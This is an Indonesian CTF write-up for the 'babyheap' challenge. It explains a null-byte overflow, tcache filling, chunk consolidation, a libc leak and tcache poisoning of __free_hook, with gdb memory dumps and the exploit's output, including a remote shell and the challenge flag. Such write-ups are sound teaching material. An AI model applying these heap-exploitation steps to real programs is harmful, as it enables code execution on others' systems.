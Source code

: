 # babyheap


## Analisa


Seperti biasa, kita lihat hasil command `file` dan `checksec` program:
```
$ file babyheap; checksec babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=4d76020ee57d2c32de45f8d5a136cd449c0dd105, not stripped
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```
Program memiliki proteksi penuh.


Bug merupakan **null-byte overflow** pada fungsi `create`. Dengan bug ini kita dapat melakukan overwrite ke heap chunk berikutnya.

```
gef> tel $r12-0x10 4
0x00005555557572e0|+0x0000: 0x0000000000000090 -> chunk yang baru dimalloc
0x00005555557572e8|+0x0008: 0x00000000000000a0
0x00005555557572f0|+0x0010: "????????"	<-$rsi, $r12
0x00005555557572f8|+0x0018: 0x0000000000000000
gef> tel $r12+$rax-8 4
0x0000555555757380|+0x0000: 0x0000000000000130 -> fake prevsize
0x0000555555757388|+0x0008: 0x0000000000000101 -> chunk target
0x0000555555757390|+0x0010: "????????"
0x0000555555757398|+0x0018: 0x0000000000000000
```


Overwrite ini menyebabkan chunk yang baru saja kita malloc, dianggap sudah di-free oleh malloc (karena bit PREV_IN_USE 0).



## Eksploitasi



Bagaimana kita mendapatkan Remote Code Execution pada program ini ? Program menggunakan libc-2.27, yang artinya [sistem tcache](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/) diterapkan. Tcache tidak menggunakan bit PREV_IN_USE, [small dan largebin](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks.html) yang menggunakannya; jadi pertama-tama kita harus mengisi tcache hingga penuh terlebih dulu (7 chunks). Kita isi tcache dengan dua size berbeda (dalam kasus ini, saya menggunakan 0x88 dan 0xf8), masing-masing dilakukan free sebanyak 7 kali. Dengan bit PREV_IN_USE yang kita nullkan, kita dapat menyatukan (consolidate) smallbin target dengan chunk yang kita malloc sebelumnya, walaupun chunk yang telah kita malloc masih digunakan.


```
gef> tel $rdi-0x10-0x130 4
0x0000555555757250|+0x0000: 0x0000000000000000 -> smallbin pertama, sudah di-free
0x0000555555757258|+0x0008: 0x0000000000000091
0x0000555555757260|+0x0010: 0x0000155555326ca0 -> 0x0000555555757fd0 -> 0x0000000000000000
0x0000555555757268|+0x0018: 0x0000155555326ca0 -> 0x0000555555757fd0 -> 0x0000000000000000
gef> tel $rdi-0x10-0xa0 4
0x00005555557572e0|+0x0000: 0x0000000000000090 -> prevsize dari free
0x00005555557572e8|+0x0008: 0x00000000000000a0 -> tcache, masih digunakan
0x00005555557572f0|+0x0010: "????????"
0x00005555557572f8|+0x0018: 0x0000000000000000
gef> tel $rdi-0x10 4
0x0000555555757380|+0x0000: 0x0000000000000130 -> fake prevsize (0x90+0xa0)
0x0000555555757388|+0x0008: 0x0000000000000100 -> smallbin target, bit PREV_IN_USE 0
0x0000555555757390|+0x0010: "????????"	<-$rdi
0x0000555555757398|+0x0018: 0x0000000000000000
``` 


Berikut state malloc setelah dilakukan free terhadap chunk target:
```
gef> tel $2-0x10-0x130 4
0x0000555555757250|+0x0000: 0x0000000000000000 -> smallbin pertama, sudah disatukan
0x0000555555757258|+0x0008: 0x0000000000000231
0x0000555555757260|+0x0010: 0x0000155555326ca0 -> 0x0000555555757fd0 -> 0x0000000000000000
0x0000555555757268|+0x0018: 0x0000155555326ca0 -> 0x0000555555757fd0 -> 0x0000000000000000
```


Kemudian untuk mendapatkan leak libc (program dilengkapi dengan ASLR), kita terlebih dulu mengalokasikan chunk berukuran 0x80 sebanyak 7 kali agar kita bisa mendapatkan smallbin pertama. Selanjutnya alokasikan smallbin chunk dengan ukuran 0x80, agar [last remainder](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks.html#last-remainder-chunk) berada tepat di atas chunk yang sudah disatukan (namun masih kita gunakan).


```
gef> tel $1-0x10-0x90 2
0x0000555555757250|+0x0000: 0x0000000000000000
0x0000555555757258|+0x0008: 0x0000000000000091 -> smallbin, sedang digunakan
gef> tel $1-0x10 4
0x00005555557572e0|+0x0000: 0x0000000000000090 -> prevsize
0x00005555557572e8|+0x0008: 0x00000000000001a1 -> last remainder, sedang digunakan
0x00005555557572f0|+0x0010: 0x0000155555326ca0 -> 0x0000555555757fd0 -> 0x0000000000000000
0x00005555557572f8|+0x0018: 0x0000155555326ca0 -> 0x0000555555757fd0 -> 0x0000000000000000
```


Kita dapat memanggil fungsi `show` agar mendapatkan leak tersebut. Setelah ini, kita hanya perlu melakukan [tcache poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c) terhadap chunk yang sudah disatukan dengan mengalokasikan chunk baru berukuran 0x90 dan melakukan free agar kita dapat mengalokasikan sebuah heap chunk di **\_\_free\_hook**.



Berikut state tcache ketika sudah di poison:
```
gef> tel $1-0x2f0+0x90 2
0x0000555555757090|+0x0000: 0x00001555553288e8 -> 0x0000000000000000
0x0000555555757098|+0x0008: 0x0000000000000000
gef> p &__free_hook
$3 = (void (**)(void *, const void *)) 0x1555553288e8 <__free_hook>
```


Berikut state malloc ketika akan dilakukan free, setelah **\_\_free\_hook** teroverwrite:
```
gef> tel $rdi 1
0x0000555555757fe0|+0x0000: 0x0068732f6e69622f ("/bin/sh"?)
gef> tel &__free_hook 1
0x00001555553288e8|+0x0000: 0x0000155554f8a440 -> <system+0> test rdi, rdi
```


Output script:
```
$ python exploit.py go
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyheap.problem.cscctf.com on port 11113: Done
[*] libc leak: 0x7ff2ca574ca0
[*] libc base: 0x7ff2ca189000
[*] __free_hook: 0x7ff2ca5768e8
[*] Switching to interactive mode
$ cat /home/babyheap/flag
CCC{wh0_woulDv3_ThOugHt_ThaT_Th1S_C4m3_Fr0m_Off_by_one}
$ 
[*] Closed connection to babyheap.problem.cscctf.com port 11113
```
